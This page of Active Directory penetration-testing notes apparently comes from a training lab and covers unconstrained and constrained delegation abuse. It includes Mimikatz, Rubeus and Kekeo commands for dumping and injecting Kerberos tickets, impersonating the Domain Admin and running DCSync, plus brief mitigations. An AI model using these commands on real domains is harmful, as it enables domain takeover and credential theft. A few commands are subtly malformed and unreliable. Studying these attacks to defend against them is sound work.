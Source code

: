 ```yaml
---
title: "Delegation Attacks"
description: "Privilege escalation using delegation attacks."
lead: "Using unconstrained and constrained delegation for privilege escalation in Active Directory with PowerView, Mimikatz, and Rubeus."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_privilege_escalation"
weight: 30
toc: true
---
```


## Unconstrained Delegation

### General

- When set for service account, allows delegation to any service to any resource on the domain as a user
- When enabled, DC places user's TGT inside TGS when user requests access to service with unconstrained delegation enabled
- Server extracts TGT from TGS and stores it in LSASS
- Server can reuse the user's TGT to access resoruces
- Escalate privileges when extracting TGT from Domain Admins or other HVTs
- Note: need local admin access on the machine to extract tickets

### Exploitation

```powershell
# Get computers that have unconstrained delegation enabled
# Using PowerView
Get-NetComputer -Unconstrained

# Using AD Module
Get-ADComputer -Filter { TrustedForDelegation -eq $true }
Get-ADUser -Filter { TrustedForDelegation -eq $true }

# Monitor DA logins on computer
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose

# Check if we have local admin access on that machine using PowerView
Find-LocalAdminAccess -ComputerName dcorp-appsrv

# Get session on machine as local admin and check for tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets"'

# Export tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Inject ticket into session
Invoke-Mimikatz -Command '"kerberos:ptt ticket.kirbi"'
```

### Printer Bug

- Trick HVT to connect to machine with Unconstrained Delegation enabled
- Feature of MS-RPRN allows any domain user (Authenticated User) to force any machine (running the Spooler service) to connect to a second machine of the user's choice
- Force Domain Admin to connect to specific machine
- https://github.com/leechristensen/SpoolSample

```powershell
# Start capturing for TGTs using Rubeus
.\Rubeus.exe monitor /interval:5 /nowrap

# Run MS-RPRN.exe
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appserv.dollarcorp.moneycorp.local

# Copy base64 encoded TGT, remove extra spaces and inject it on attacker machine
.\Rubeus.exe ptt /ticket:ticket.kirbi

# Run DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

## Constrained Delegation

### General

- When enabled on a service account, allows access only to specified services on specified computers as a user
- Typical scenario:
  - User authenticates to a web service without Kerberos
  - Web services makes requests to database server to fetch results based on the user's authorization
- To impersonate the user, Service for User (S4U) extension is used which provides two extensions

#### Service for User to Self (S4U2self) Extension

- Allows service to obtain a forwardable TGS to itself on behalf of a user
- Only needs the user principal name but NO PASSWORD
- Service account must have the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` - T2A4D UserAccountControl attribute set

#### Service for User to Proxy (S4U2proxy) Extension

- Allows service to obtain a TGS to a second service on behalf of a user
- Uses the previously obtained TGS from S4U2self
- Only allows access to services listed in the `msDS-AllowedToDelegateTo` attribute
- Attribute contains list of SPNs to which the user tokens can be forwarded

### Example Scenario: Constrained Delegation with Protocol Transition

1. User (Joe) authenticates to web service running under `websvc` service account using non-Kerberos method
2. Web service requests ticket from KDC for Joe without supplying a password, as the websvc account
3. KDC checks the websvc userAccountControl value for TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute
4. If set, KDC checks that Joe's account is not blocked for delegation
5. If OK, KDC returns forwardable ticket for Joe's account (S4U2self)
6. Service passes ticket back to the KDC and requests a TGS for the CIFS/dcorp-mssql.dollarcorp.moneycorp.local service
7. KDC checks the msDS-AllowedToDelegateTo field on the websvc account
8. If SPN is listed there, KDC return TGS for dcorp-mssql (S4U2proxy)
9. Web service can now authenticate to the CIFS on dcorp-mssql as Joe using the obtained TGS

### Exploitation

#### For Users with Constrained Delegation

- Requires access to the user/service account
- If we can access it, we can access all the listed services in msDS-AllowedToDelegateTo attribute
- Can access the services as ANY user

```powershell
# Enumerate users with constrained delegation enabled
# PowerView 3.0
Get-DomainUser -TrustedToAuth

# AD Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo} -ne "$null"} -Properties msDS-AllowedToDelegateTo

# Kekeo
# Request TGT for websvc user
tgt::ask /domain:dollarcorp.moneycorp.local /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f

# Request TGS using s4u in Kekeo and supplying the requested TGT
# Impersonate the Administrator Domain Admin
# We gain access to the CIFS service
tgs::s4u /tgt:tgt.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.local

# Inject the ticket using mimikatz
Invoke-Mimikatz -Command '"kerberos::ptt tgs.kirbi"'

# We can do both steps at the same time using Rubeus
# Request TGT and TGS in a single command
.\Rubeus.exe s4u /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /ptt

# We can now access the CIFS service on dcorp-mssql as the dcorp\Administrator DA user
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

#### For Computers with Constrained Delegation

- Delegation occurs not only for specific service
- Occurs for ANY service running under the same service account
- No validation for SPN specified
- Requires hash of the machine account of the computer running with constrained delegation

```powershell
# Enumerate computers with constrained delegation enabled
# PowerView 3.0
Get-DomainComputer -TrustedToAuth

# AD Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo} -ne "$null"} -Properties msDS-AllowedToDelegateTo

# Kekeo
# Request TGT for machine account
tgt::ask /domain:dollarcorp.moneycorp.local /user:dcorp-adminsrv$ /rc4:5e77978a734e3a7f3895fb0fdbda3b96

# Using s4u, request TGS to access the LDAP service as the DA Adminstrator
tgs::s4u /tgt:tgt.kirbi /user:Administrator@dollarcorp.moneycorp.LOCAL /service:time/dcorp-dc.dollarcorp.moneycorp.local|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL

# Inject ticket into memory with Mimikatz
Invoke-Mimikatz -Command '"kerberos::ptt tgs.kirbi"'

# Request TGS and TGT at the same time with Rubeus
.\Rubeus.exe s4u /user:dcorp-adminsrv$ /rc4:5e77978a734e3a7f3895fb0fdbda3b96 /impersonateuser:Administrator /msdsspn:"time/dcorp-dc.dollarcorp.moneycorp.local" /altservice:ldap /ptt

# Execute DCSync attack with new permissions
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

## Mitigation

- Limit DA/Admin logins to specific servers
- Set "Account is sensitive and cannot be delegated" for privileged accounts
- https://docs.microsoft.com/en-us/archive/blogs/poshchap/security-focus-analysing-account-is-sensitive-and-cannot-be-delegated-for-privileged-accounts

